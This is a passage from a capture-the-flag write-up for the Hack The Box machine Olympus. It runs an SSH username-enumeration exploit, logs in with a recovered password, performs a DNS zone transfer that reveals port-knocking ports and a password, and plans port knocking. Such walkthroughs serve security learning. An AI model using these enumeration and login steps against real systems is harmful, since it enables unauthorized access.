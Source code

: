 Running the exploit with the custom wordlist:
```markdown
python sshUsernameEnumExploit.py --port 2222 --userList greek_chars.txt 10.10.10.83
```

After finishing, it shows that the username _icarus_ is a valid user.
Connecting via SSH on port 2222 into the box with that username and trying out the _SSID_ and the _key_:
```markdown
ssh -p 2222 icarus@10.10.10.83
```

The SSID as the password works and we are logged in on the box as _icarus_.

## Privilege Escalation 2

This environment is still a Docker container so lets look for a way to get to the real box.
In the home folder of _icarus_ is a text file called _help_of_the_gods.txt_ with the following content:
```markdown
Athena goddess will guide you through the dark...

Way to Rhodes...
ctfolympus.htb
```

As the initial Nmap scan showed, **DNS** is listening on the box, so lets check the **DNS Zone Transfers** on this domain:
```markdown
dig axfr @10.10.10.83 ctfolympus.htb
```
```markdown
ctfolympus.htb.         86400   IN      SOA     ns1.ctfolympus.htb. ns2.ctfolympus.htb. 2018042301 21600 3600 604800 86400
ctfolympus.htb.         86400   IN      TXT     "prometheus, open a temporal portal to Hades (3456 8234 62431) and St34l_th3_F1re!"
ctfolympus.htb.         86400   IN      A       192.168.0.120
ctfolympus.htb.         86400   IN      NS      ns1.ctfolympus.htb.
ctfolympus.htb.         86400   IN      NS      ns2.ctfolympus.htb.
ctfolympus.htb.         86400   IN      MX      10 mail.ctfolympus.htb.
crete.ctfolympus.htb.   86400   IN      CNAME   ctfolympus.htb.
hades.ctfolympus.htb.   86400   IN      CNAME   ctfolympus.htb.
mail.ctfolympus.htb.    86400   IN      A       192.168.0.120
ns1.ctfolympus.htb.     86400   IN      A       192.168.0.120
ns2.ctfolympus.htb.     86400   IN      A       192.168.0.120
rhodes.ctfolympus.htb.  86400   IN      CNAME   ctfolympus.htb.
RhodesColossus.ctfolympus.htb. 86400 IN TXT     "Here lies the great Colossus of Rhodes"
www.ctfolympus.htb.     86400   IN      CNAME   ctfolympus.htb.
ctfolympus.htb.         86400   IN      SOA     ns1.ctfolympus.htb. ns2.ctfolympus.htb. 2018042301 21600 3600 604800 86400
```

The TXT-record that tells us to open a temporal portal to Hades looks like, it wants us to do **port knocking** on the ports to open another port.
As SSH is filtered, it could be that one and _"St34l_th3_F1re!"_ the password.

